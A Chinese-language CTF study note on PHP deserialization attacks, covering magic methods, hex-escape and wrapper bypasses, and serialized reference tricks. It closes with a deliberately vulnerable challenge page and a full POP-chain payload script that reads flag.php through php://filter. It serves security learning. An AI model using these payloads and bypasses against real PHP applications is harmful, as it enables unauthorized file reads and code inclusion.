 ```yaml
---
title: 【WEB】PHP反序列化
---
```


# PHP 反序列化

魔术函数：

```
__construct() 当一个对象创建时被调用，反序列化不触发
__destruct()  当一个对象销毁时被调用
__toString()  当一个对象被当作一个字符串使用，比如echo输出或用 . 和字符串拼接
__call()      当调用的方法不存在时触发
__invoke()    当一个对象被当作函数调用时触发
__wakeup()    反序列化时自动调用
__get()       类中的属性私有或不存在触发
__set()       类中的属性私有或不存在触发
```

反序列化十六进制绕过关键字

```
在反序列化时，序列化中的十六进制会被转化成字母
当过滤了c2e38 ，即可用 \63\32\65\33\38 替代，S解析十六进制
username:y1ng\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0
password:";S:11:"\00*\00password";O:8:"Hacker_A":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_B":1:{S:5:"\63\32\65\33\38";O:8:"Hacker_C":1:{s:4:"name";s:4:"test";}}};s:1:"a";s:0:"
 
\00 会被替换为 %00
\65 会被替换为 e
 
过滤了%00，可用S来代替序列化字符串的s来绕过，在S情况下\00 会被解析成%00
```

序列化时类中私有变量和受保护变量，php7.1+ 对属性并不敏感，public 也可用于protected

```
private反序列化后是%00(类名)%00(变量名)，protect是%00*%00(变量名)
```

PHP5 以及 PHP7 < 7.0.10 可用wake up 绕过

<img src="/images/php-serialize/2.png" alt="image-20201218105604315" style="zoom:80%;" />

当对象个数大于实际个数就不会触发



## 序列化引用：

<img src="/images/php-serialize/3.png" alt="image-20201218105803889" style="zoom: 67%;"/>

这里的 R:2 即对第二个序列化变量的引用。第一个序列化变量是 a:2:{***}，第二个序列化变量是 i:0;s:3:"foo";

所以这道题可以构造 token 对 token_flag 的引用

payload = O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";s:10:"token_flag";R:4;}} 。

按序列化顺序排号：

(1), O:6:"Handle":2:{***}

(2), s:14:"%00Handle%00handle";O:4:"Flag":3:{***}

(3), s:4:"file";s:8:"flag.php";

(4), s:5:"token";s:32:"02575659ec3b5f6d204a1d1b3081379b";

(5), s:10:"token_flag";R:4;

可以看出 token_flag 即为 4 号 token 的引用，所以序列化之后他们是恒等的。

 <img src="/images/php-serialize/1.png" alt="image-20201218105854349" style="zoom:80%;" />

把b的地址给a，之后b再传入数据则a也相应变化

可以说这两个变量绑定在了一起，有一个改变，另一个也会一起改变

 

当没有 unserialize() 时可使用phar，file_exist() 会触发phar反序列化 ( PHP8中删除 )

当开头为phar的协议被过滤时，可使用compress.zlib:// 绕过

形如：compress.zlib://phar://



## 例题

目标路径存在 index.php 和 flag.php

index.php：

```
<?php
error_reporting(0);
class Vox{
    protected $headset;
    public $sound;
    public function fun($pulse){
        include($pulse);
    }
    public function __invoke(){
        $this->fun($this->headset);
    }
}

class Saw{
    public $fearless;
    public $gun;

    public function __toString(){
        $this->gun['gun']->fearless;
        return "Saw";
    }

    public function _pain(){
        if($this->fearless){
            highlight_file($this->fearless);
        }
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|php|\.\./i", $this->fearless)){
            echo "Does it hurt? That's right";
            $this->fearless = "index.php";
        }
    }
}

class Petal{
    public $seed;

    public function __get($sun){
        $Nourishment = $this->seed;
        return $Nourishment();
    }
}

if(isset($_GET['ozo'])){
    unserialize($_GET['ozo']);
}
else{
    $Saw = new Saw('index.php');
    $Saw->_pain();
}
?>
```

flag.php：

```
<?php
$flag="{This_is_flag}";
```

首先先找反序列化链入口，这里没有 `__destruct()`，能触发的只有 `__wakeup()`，入口从`__wakeup()`进，出口有两个，一个是 `_pain()` 的 `highlight_file($this->fearless)`，另一个是`__fun`中的 `include()`，这里可以使用 php 伪协议读取文件内容

然后捋一遍出现的魔术函数，有 `__wakeup()`，`__toString()`，`__invoke()`，`__get()`

`__wakeup()`是入口，后面有一句 `preg_match`，`$this->fearless` 是被当成字符串使用的，就是说如果把  `$this->fearless` 赋值为 对象 Saw 就会进入 `__toString()`，之后有 `$this->gun['gun']->fearless` ，Petal 类中不存在 `fearless` 属性，把 `gun['gun']`赋值为 对象 Petal 会进入 `__get()`，其中 `$Nourishment()` 可控，属性 `seed`赋值为对象，触发`__invoke()`伪协议包含读文件

### Payload

```
<?php
class Vox{
    protected $headset="php://filter/read=convert.base64-encode/resource=flag.php";
    public $sound;
}

class Saw{
    public $fearless;
    public $gun;
	public function _pain(){}
}

class Petal{
    public $seed;
}
$a = new Vox();
$b = new Saw();
$c = new petal();
$c->seed = $a;
$d = new Saw();
$d->gun['gun']=$c;
$b->fearless = $d;
echo(serialize($b));
?>
```